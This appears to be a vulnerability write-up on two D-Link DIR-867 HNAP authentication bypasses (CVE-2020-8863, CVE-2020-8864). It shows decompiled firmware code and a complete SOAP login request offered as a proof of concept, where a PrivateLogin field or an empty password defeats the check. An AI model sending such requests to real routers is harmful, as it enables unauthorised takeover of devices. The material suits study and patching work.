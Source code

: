 ### CVE-2020-8863
> […] bypass authentication on affected installations of D-Link DIR-867, […], routers with firmware 1.10B04. […] The specific flaw exists within the handling of HNAP login requests. The issue results from the lack of proper implementation of the authentication algorithm. […]

There’s a hidden option in `Login.xml`, which is implemented in `prog.cgi`.
```c
...
if ((PrivateLogin == (char *)0x0) || (iVar1 = strncmp(PrivateLogin,"Username",8), iVar1 !=0)) {
  FUN_004205fc(acStack204,0x40); // get password from nvram
}
else {
  strncpy(acStack204,Username,0x40);
}
...
```
If `PrivateLogin` doesn’t exist or its value `PrivateLogin` isn’t `"Username"`, password stored in the nvram will be used in `PrivateKey` production.

If `PrivateLogin` exists **AND** its value is `"Username"`, the username (`Admin`) will be used in `PrivateKey` production **instead of the stored password**.

In other words, if I include `<PrivateLogin>Username</PrivateLogin>` in my login request, `PrivateKey` will be `hmac_md5(PublicKey+'Admin', Challenge)` instead of the original implementation.

The following request body is a PoC.
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xmlns:xsd="http://www.w3.org/2001/XMLSchema"xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>request</Action>
      <Username>Admin</Username>
      <LoginPassword></LoginPassword>
      <Captcha></Captcha>
      <PrivateLogin>Username</PrivateLogin>
    </Login>
  </soap:Body>
</soap:Envelope>
```
So I control the construction of `PrivateKey`, which means `HNAP_AUTH` is ready. Now how do I deal with the second stage of login?

### CVE-2020-8864
> […] bypass authentication on affected installations of D-Link DIR-867, […], routers with firmware 1.10B04. […] The specific flaw exists within the handling of HNAP login requests. The issue results from the lack of proper handling of empty passwords. […]

This one is quite simple.
```c
...
len = strlen(LoginPassword);
iVar1 = strncmp(acStack864,LoginPassword,len);
...
```
If `strlen(LoginPassword) == 0`, the `strncmp` is broken since it’ll always return `0`.
